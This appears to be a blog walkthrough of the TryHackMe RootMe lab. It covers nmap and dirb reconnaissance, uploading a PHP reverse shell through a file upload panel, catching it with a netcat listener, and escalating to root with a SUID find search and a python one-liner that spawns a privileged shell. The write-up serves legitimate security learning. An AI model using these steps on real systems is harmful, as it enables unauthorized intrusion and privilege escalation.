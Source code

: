 ```yaml
---
title: "RootMe Walkthrough"
date: 2021-05-07T14:50:28
lastmod: 2021-05-12T17:51:51
draft: false
description: "A walkthrough to the RootMe Room on TryHackMe."

tags: ["hacking", "web", "walkthrough", "privesc"]
categories: ["TryHackMe Walkthroughs"]

---
```


One of the best ways to learn ethical hacking is to practice it. So below is a walkthrough of the [RootMe Room on THM](https://tryhackme.com/room/rrootme)

# Reconnaissance

## Nmap
As with most machines, I began with an Nmap scan - which answers the first few questions. 

I firstly scanned with sV to determine the software versions, however as the target wouldn't respond to host discovery, I had to disable it using the -Pn option.

```sh
$ nmap -sV -Pn 10.10.130.205
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-03 20:08 BST
Nmap scan report for 10.10.130.205
Host is up (0.068s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.90 seconds
```

## Directory Searching

Next we had to preform a directory brute force, so I started dirb.

```sh
$ dirb http://10.10.130.205

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Mon May  3 20:09:00 2021
URL_BASE: http://10.10.130.205/
WORDLIST_FILES: /data/data/com.termux/files/usr/share/dirb/wordlists/common.txt

-----------------
GENERATED WORDS: 4612

---- Scanning URL: http://10.10.130.205/ ----
                                                                                    ==> DIRECTORY: http://10.10.130.205/css/
+ http://10.10.130.205/index.php (CODE:200|SIZE:616)
==> DIRECTORY: http://10.10.130.205/js/
==> DIRECTORY: http://10.10.130.205/panel/
```

# Getting a Shell

From the recon above, we discover the page /panel/ and when we navigate to that page, we are presented with a file upload area.

Now I wondered if we could upload a shell and as we know the server runs Apache I grabbed the [Pentest Monkey Reverse PHP Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

Firstly, we setup a netcat listener ready to receive the shell on the attacking machine.

```sh
$ nc -nvlp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

Next I edited line 49 of the shell to match my attacking machine's IP address and uploaded it to the website.

Once we uploaded the file, we are provided with a success message; it says Veja - which means go. So if you click on the link it will open the file, this will cause the page to freeze.

Now we return to the netcat listener and we have received a shell and can find the user flag.

# Privilege Escalation

Now we have found the user flag, we need to escalate our privileges. To do this, I used to find files with a SUID bit.

```sh
find / -perm /4000 2>/dev/null
```

From that, you need to look at the list and see if there are any unusual files. Unfortunately, this step needs experience for you to know what is unusual; therefore I advise that you enter the file names into [GTFObins](https://gtfobins.github.io/) and looking for SUID exploits.

After running down the list, you discover that python has a SUID vulnerability, so now you run it on the reverse shell.

Once the exploit is complete, I use the whoami command to check it worked

```sh
usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
```

From here you need to find the root flag by outputting the file in the root users home directory.
